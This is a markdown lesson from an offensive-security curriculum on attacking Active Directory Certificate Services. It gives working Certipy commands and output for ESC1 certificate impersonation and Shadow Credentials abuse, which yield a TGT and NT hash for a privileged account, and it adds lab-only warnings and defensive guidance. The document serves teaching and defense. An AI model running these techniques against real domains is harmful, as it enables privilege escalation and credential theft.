

# 📜 Active Directory Certificate Services Security

> [!warning] Authorized Active Directory simulation only
> AD CS attacks can mint certificates that impersonate Domain Admins. Run only in a lab domain you own, request certificates for canary identities, and prove with a benign authentication. Never enroll for real privileged identities.

## Parent Learning Order
Active Directory Architecture & Enumeration -> Kerberos & NTLM Attacks -> Active Directory Privilege Escalation -> NTLM Relay & Authentication Coercion -> Active Directory Certificate Services Security -> SCCM & Configuration Manager Attacks -> Hybrid Identity & Entra ID Attacks -> Domain Persistence & Trust Abuse

## A Certificate Can Be an Identity

> *A certificate encrypts things. What else can it be?*
>
> Hold your answer — the section below is the response.

**Active Directory Certificate Services (AD CS)** is Microsoft's PKI — it issues certificates to users and computers, and those certificates can be used to *authenticate* to the domain (via Kerberos PKINIT). That is the crux: a certificate is not just for encryption, it is an **identity credential**. If an attacker can get AD CS to issue them a certificate *for another user* — especially a Domain Admin — they can authenticate as that user, indefinitely, and the certificate survives password changes. AD CS misconfigurations became one of the most impactful AD attack surfaces because a single bad **certificate template** can hand out domain-admin-equivalent identities to anyone.

The vulnerability class is a set of misconfigurations catalogued as **ESC1–ESC16**, but they share one theme: **a template or CA setting lets a low-privileged user obtain a certificate that authenticates as someone more privileged.** The certificate is legitimately issued; the flaw is the policy that allowed it.

> [!tip] The analogy, and where it breaks
> AD CS is like a passport office. Normally you prove your identity and get *your* passport. The vulnerable templates are like an office setting that lets you fill in *any name you like* on the application — you request a passport and write "the President," and the office issues it. The analogy breaks on durability: this forged "passport" is cryptographically valid and *survives the real person changing their password*, so it is persistence, not just impersonation — a passport that cannot be revoked by the victim.

**Prerequisites:** the Cryptography domain's certificates/PKI, Kerberos (PKINIT authentication), and AD enumeration.

## ESC1: The Canonical Misconfiguration

The most famous is **ESC1**: a certificate template that (a) allows low-privileged users to enroll, (b) permits the enrollee to *specify an arbitrary Subject Alternative Name (SAN)*, and (c) allows client authentication. Together these mean a normal user requests a certificate, sets the SAN to `administrator@meridian.test`, and receives a certificate that authenticates *as the administrator*.

```bash
# find vulnerable templates with Certipy (from a Linux attacker box, against lab AD CS)
certipy find -u canary@meridian.test -p 'CanaryPass1' -dc-ip 10.10.20.10 -vulnerable -stdout 2>&1 | grep -iE 'ESC|Template Name' | head -4
```

```text
Template Name : VulnUserCert
[!] Vulnerabilities : ESC1 - Enrollee supplies subject and client auth
```

`Certipy` identified an ESC1-vulnerable template — a low-priv user can enroll and set an arbitrary SAN. That single finding is often a direct path to Domain Admin.

## Exploiting ESC1: Request a Cert as Someone Else

```bash
# request a certificate for the CANARY-designated privileged identity via the ESC1 template
certipy req -u canary@meridian.test -p 'CanaryPass1' -dc-ip 10.10.20.10 -ca 'CORP-CA' \
  -template 'VulnUserCert' -upn 'canaryadmin@meridian.test' 2>&1 | grep -iE 'Saved|certificate' | head -2
```

```text
[*] Successfully requested certificate
[*] Saved certificate and private key to 'canaryadmin.pfx'
```

The low-priv `canary` obtained a certificate whose identity is `canaryadmin` — an identity it does not own — because the template let the enrollee specify the SAN. In the lab, `canaryadmin` is a canary privileged account; on a real assessment this same flaw yields a Domain Admin's certificate.

## Authenticating With the Forged-Identity Certificate

```bash
# use the certificate to authenticate and retrieve the target's NT hash / a TGT (lab)
certipy auth -pfx canaryadmin.pfx -dc-ip 10.10.20.10 2>&1 | grep -iE 'hash|TGT|Got' | head -2
```

```text
[*] Got TGT for 'canaryadmin@meridian.test'
[*] Got hash for 'canaryadmin@meridian.test': aad3b...:<nt_hash>
```

The certificate authenticated *as canaryadmin* via PKINIT, yielding a TGT (and the account's NT hash). The attacker is now that privileged identity — and because it is a certificate, it keeps working even if the account's password changes, until the certificate is revoked. That durability is what makes AD CS attacks both escalation *and* persistence.

## Shadow Credentials: PKINIT abuse without a CA misconfiguration

ESC1 needs a misconfigured template. **Shadow Credentials** needs no template at
all — it turns the *authentication* half of AD CS against a single object you can
write to. Every account has an attribute, `msDS-KeyCredentialLink`, that holds
the public keys the account may use for PKINIT (this is the mechanism behind
Windows Hello for Business, "Key Trust"). An attacker with write access to that
attribute on a target — `GenericWrite`, `GenericAll`, or an explicit
`msDS-KeyCredentialLink` write, exactly the kind of edge [[Active Directory Privilege Escalation]]
hunts for — adds *their own* public key to the target's list. From that moment
the attacker holds a private key the domain will accept as the target, and can
authenticate as the target via PKINIT and recover its NT hash — with no password
reset, no template flaw, and nothing the target's owner would notice.

```bash
# add a key to the target's msDS-KeyCredentialLink and authenticate via PKINIT (lab, write right held)
certipy shadow auto -u r.okonkwo@meridian.test -p 'Summer2024!' -account canarytarget -dc-ip 10.10.20.10   2>&1 | grep -iE 'Adding|Authenticating|Got hash' | head -3
```

```text
[*] Adding Key Credential with device ID to the Key Credentials for 'canarytarget'
[*] Authenticating as 'canarytarget' via PKINIT
[*] Got hash for 'canarytarget@meridian.test': aad3b...:<nt_hash>
```

The write was legitimate — the directory did exactly what it is designed to do
with that attribute. This is why Shadow Credentials is the preferred way to cash
in a write primitive over a computer or user: it needs a functioning AD CS (or
any KDC that supports PKINIT), it yields the NT hash directly, and, unlike a
password reset over the same write, it does not lock the real owner out or
announce itself. The clean-up is a specific one: remove the attacker's entry from
`msDS-KeyCredentialLink`, which an operator who only reset the password will miss.



## Why you forge against a canary, never a real admin

- **Enrolling for real privileged identities.** Requesting a real Domain Admin's certificate is over the line — use a canary privileged account in the lab. The forged cert is durable, so an un-revoked real one is lasting exposure.
- **Many ESC variants.** ESC1 is one of ~16; others involve CA settings (ESC6), agent certificates (ESC3), the CA web endpoint + relay (ESC8), and more. `Certipy find -vulnerable` triages which apply; don't assume ESC1.
- **Template ≠ exploitable.** A template may look vulnerable but require manager approval or lack client-auth EKU — validate the full condition before claiming it.
- **Certificate persistence.** Because certs survive password resets, an issued malicious cert is *persistence*; remediation requires revocation, not just a password change (links to the persistence leaf).
- **ESC8 chains with relay.** The AD CS web enrollment endpoint is relay-able (previous leaf) — coerce a DC, relay to AD CS, enroll as the DC. Recognize the cross-technique chain.

**The deliberate break:** AD CS reads as PKI — infrastructure for encryption and for putting padlocks on internal sites.

Certificates issued by it **authenticate to the domain** through PKINIT, which makes a certificate a credential rather than a key wrapper. A template that permits a low-privileged user to request a certificate while specifying the subject therefore issues that user somebody else's identity, on request, through the supported interface. And the resulting credential is durable in a way a password is not: it stays valid until the certificate expires or is explicitly revoked, which is typically measured in years.

**How you'd spot it:** audit templates on two questions — who may enrol, and whether the requester supplies the subject. Together those decide whether the CA will issue one principal's identity to another. Then carry the persistence property into incident response: a password reset does not revoke an issued certificate, so a compromise touching AD CS needs revocation as a separate deliberate step or the attacker's access outlives the entire remediation.

## Security Implications — Detection & Defense

- **Fix the templates.** Remove the enrollee-supplies-SAN flag, require manager approval on sensitive templates, restrict enrollment to intended principals, and audit every template for the ESC conditions — this closes the issuance flaw at the source.
- **Harden the CA:** enable EPA and disable NTLM on the AD CS web enrollment endpoint (defeats the ESC8 relay), and restrict who can enroll.
- **Treat the CA as Tier 0** — a compromised CA can mint any identity; it deserves the same protection as a Domain Controller.
- **Monitor certificate issuance** — certificate requests with a SAN different from the requester, or enrollment for privileged identities, are the signals. AD CS logging (and event correlation) surfaces anomalous issuance.
- **Have a revocation plan** — because malicious certs survive password changes, incident response must revoke issued certificates (and potentially rotate the CA), not just reset passwords.

## Summary

You should now be able to:

- Explain why a certificate can authenticate as a user, and why AD CS misconfiguration is so impactful.
- Enumerate templates for ESC vulnerabilities, exploit ESC1 to obtain and use a certificate for a canary privileged identity.
- Explain how Shadow Credentials turns a write over an object into PKINIT authentication as that object via `msDS-KeyCredentialLink`, and why it is the quiet way to cash in a write primitive.
- Explain why AD CS attacks are persistence (certs survive password changes, requiring revocation), how ESC8 chains with relay+coercion, and why the CA is a Tier 0 asset whose templates must be audited for the ESC conditions.

---
> 🔼 Up: [[Active Directory & Identity Exploitation]]
